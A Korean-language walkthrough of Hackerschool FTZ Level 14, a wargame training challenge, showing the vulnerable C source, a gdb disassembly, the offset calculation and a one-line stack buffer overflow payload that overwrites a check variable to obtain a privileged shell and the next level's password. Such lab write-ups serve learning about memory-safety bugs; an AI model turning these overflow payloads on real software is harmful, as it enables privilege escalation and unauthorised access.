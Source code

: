 # Hackerschool FTZ Level 14

```
login as: level14
level14@192.168.18.131's password:
Access denied
level14@192.168.18.131's password:
[level14@ftz level14]$ ls
attackme  hint  public_html  tmp
[level14@ftz level14]$ cat hint

레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다.
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이
최고의 효과를 가져다줍니다.

#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}

[level14@ftz level14]$ gdb -q ./attacme
./attacme: No such file or directory.
(gdb) Quit
(gdb) quit
[level14@ftz level14]$ gdb -q ./attackme
(gdb) disas main
Dump of assembler code for function main:
0x08048490 <main+0>:    push   %ebp
0x08048491 <main+1>:    mov    %esp,%ebp
0x08048493 <main+3>:    sub    $0x38,%esp
0x08048496 <main+6>:    sub    $0x4,%esp
0x08048499 <main+9>:    pushl  0x8049664
0x0804849f <main+15>:   push   $0x2d
0x080484a1 <main+17>:   lea    0xffffffc8(%ebp),%eax
0x080484a4 <main+20>:   push   %eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    $0x10,%esp
0x080484ad <main+29>:   cmpl   $0xdeadbeef,0xfffffff0(%ebp)
0x080484b4 <main+36>:   jne    0x80484db <main+75>
0x080484b6 <main+38>:   sub    $0x8,%esp
0x080484b9 <main+41>:   push   $0xc17
0x080484be <main+46>:   push   $0xc17
0x080484c3 <main+51>:   call   0x8048380 <setreuid>
0x080484c8 <main+56>:   add    $0x10,%esp
0x080484cb <main+59>:   sub    $0xc,%esp
0x080484ce <main+62>:   push   $0x8048548
0x080484d3 <main+67>:   call   0x8048340 <system>
0x080484d8 <main+72>:   add    $0x10,%esp
0x080484db <main+75>:   leave
0x080484dc <main+76>:   ret
0x080484dd <main+77>:   lea    0x0(%esi),%esi
End of assembler dump.
(gdb) quit
[level14@ftz level14]$ (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat)|./attackme
my-pass

Level15 Password is "guess what".
```

이번 문제는 쉬어가는 문제같았다.

먼저 소스를 보면, `check` 변수에 `0xdeadbeef` 값이 들어가있으면 `/bin/sh` 를 실행해준다.

`attackme` 의 어셈 코드를 보고 각 변수의 위치를 알아내면

- `buf` 는 `lea 0xffffffc8(%ebp),%eax` 를 봐서 `ebp-0x38` 에 있다.
- `check` 는 `cmpl $0xdeadbeef,0xfffffff0(%ebp)` 를 봐서 `ebp-0x10` 에 있다.

즉, 두 변수의 차이는 `0x28`, 즉 10진수로 40이다.

그러므로 `A` 40개와 `0xdeadbeef` 를 리틀엔디언 방식을 고려하여 적은 `\xef\xbe\xad\xde` 를 입력해주고,

`; cat` 를 통해 입력에 대한 출력을 하게 해주고, `|` 를 통해 `./attackme` 로 출력을 리다이렉션 해주면,

쉘을 딸 수 있는 문제였다.